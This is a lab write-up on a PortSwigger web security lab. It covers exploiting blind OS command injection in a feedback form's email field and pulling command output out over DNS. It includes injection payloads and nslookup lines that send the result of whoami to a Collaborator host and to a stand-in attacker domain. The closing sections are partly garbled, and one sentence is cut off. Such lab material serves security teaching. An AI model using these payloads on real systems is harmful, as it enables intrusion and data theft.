



# Blind OS command injection with out-of-band data exfiltration

### Goal - 

Exploit blind OS command injection to issue a DNS lookup to Burp Collaborator

### Analysis/Exploitation 

First have a look at the website and its feedback feature. I submit a feedback and send the request to repeater. In the previous lab, we found that the `email` parameter is vulnerable to blind OS command injection:
I assume that the attack vector is the same as in the other labs: the email input field.

try to do **OS command injection** in the `email` parameter:

`;id;#`


However, there’s no output of our command in the response, it might be vulnerable to blind OS command injection.

Therefore I open a new Burp Collaborator client and generate a new payload. URLencode the payload to avoid breaking the request.

```bash
;nslookup 8mvkjln6evqts94q7vwt31eziqoic90y.oastify.com;#
```



we successfully received 2 DNS lookups, which means the feedback function is indeed vulnerable to blind OS command injection!!

Once we’ve confirmed blind OS command injection, we can exfiltrate the output from injected commands using OAST techniques:


💡 The out-of-band channel provides an easy way to exfiltrate the output from injected commands:

```bash
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

This causes a DNS lookup to the attacker's domain containing the result of the `whoami` command:

```bash
wwwuser.kgji2ohoyw.web-attacker.com
```



Add the output of `whoami` as subdomain to the domain name provided but Burp Collaborator and send the request. URLencode the payload to avoid breaking the request.

```bash
; nslookup `whoami`.8mvkjln6evqts94q7vwt31eziqoic90y.burpcollaborator.net; #
or
; nslookup $(whoami).8mvkjln6evqts94q7vwt31eziqoic90y.burpcollaborator.net; #
```



The username is shown in the DNS request:



### Why It Works

The exploit succeeds because this lab contains a blind os command injection vulnerability in the feedback function.

The official solution confirms: Use Burp Suite Professional to intercept and modify the request that submits feedback. Go to the Collaborator tab. Click "Copy to clipboard" to copy a

The root cause is a failure in the application's security architecture specific to this os command injection scenario — the server does not properly validate or secure the user-controlled input that reaches the vulnerable operation.

### Key Takeaways

- This lab contains blind OS command, demonstrating how os command injection vulnerabilities manifest in real applications.
- The vulnerability is exploitable because user input reaches a sensitive operation without adequate server-side validation.
- PortSwigger confirms: "This lab contains a blind OS command injection vulnerability in the feedback function."
- Use parameterized command APIs instead of shell string concatenation.
